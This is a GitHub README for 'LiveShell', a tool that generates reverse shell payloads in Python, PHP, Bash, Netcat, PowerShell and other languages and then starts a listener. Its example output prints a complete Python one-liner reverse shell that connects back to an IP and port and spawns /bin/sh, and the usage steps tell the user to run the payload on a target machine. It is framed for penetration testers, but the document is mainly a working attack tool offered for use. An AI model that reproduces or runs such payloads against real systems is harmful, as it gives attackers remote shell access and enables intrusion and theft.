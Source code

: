 
# LiveShell - Interactive Reverse Shell Generator

![LiveShell Banner](https://i.pinimg.com/736x/f5/b9/f0/f5b9f0bd95f86bf95ed21e8b1abf25d7.jpg)



### LiveShell: 
Is a powerful, interactive tool designed to generate reverse shell payloads in multiple programming languages. Whether you're a penetration tester, security researcher, or ethical hacker, LiveShell simplifies the process of creating reverse shells for various platforms and architectures.

---

## Features

- **Multi-Language Support**: Generate reverse shell payloads in Python, PHP, Bash, Netcat (nc), Perl, Ruby, Go, PowerShell, and JavaScript.
- **Interactive Interface**: User-friendly menu-driven interface for easy navigation.
- **Automated Listener**: Automatically starts a listener for the reverse shell connection.
- **Colorful Output**: Beautiful, hacker-style terminal output with colors for better readability.
- **Cross-Platform**: Works on Linux, macOS, and Windows (with WSL).



## Installation

1. Clone the repository:
   ```bash
   git clone https://github.com/livepwn/liveshell.git
   
   cd liveshell
   
   chmod +x liveshell.py
   ```
### Run the tool
```bash
./liveshell.py
```
# Usage
### 1: Run the tool:

```bash
./liveshell.py
```
### 2: Follow the prompts:

⚬Enter your IP address.

⚬Enter the port to listen on.

⚬Choose a language for the reverse shell payload.

### 3: Copy the generated payload and execute it on the target machine.

### 4: The tool will automatically start a listener. Once the payload is executed, you'll get a reverse shell connection.

## Supported Languages
  ●  Python

  ●  PHP

  ●  Bash

  ●  Netcat (nc)

  ●  Perl

  ●  Ruby

  ●  Go

  ●  PowerShell

  ●  JavaScript

## Advantages
### Fast and Efficient: 
  ▸  Generate reverse shell payloads in seconds.

### No Manual Effort: 
  ▸  Automates the process of creating and testing reverse shells.

### Beginner-Friendly: 
  ▸  Simple, interactive interface for users of all skill levels.

### Extensible: 
▸ Easily add support for new languages or features.

## Example
```
[*] Welcome to LiveShell - Interactive Reverse Shell Generator!
[*] Please provide the following details:

[+] Enter your IP address: 192.168.1.100
[+] Enter the port to listen on (e.g., 4444): 4444

[*] Available languages:
1. Python
2. PHP
3. Bash
4. Netcat (nc)
5. Perl
6. Ruby
7. Go
8. PowerShell
9. JavaScript
[+] Choose a language (1-9): 1

[+] Reverse shell code for python:

python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.1.100",4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);subprocess.call(["/bin/sh","-i"])'

[*] Starting listener on port 4444...
```

## Author

- [@livepwn](https://www.github.com/livepwn)
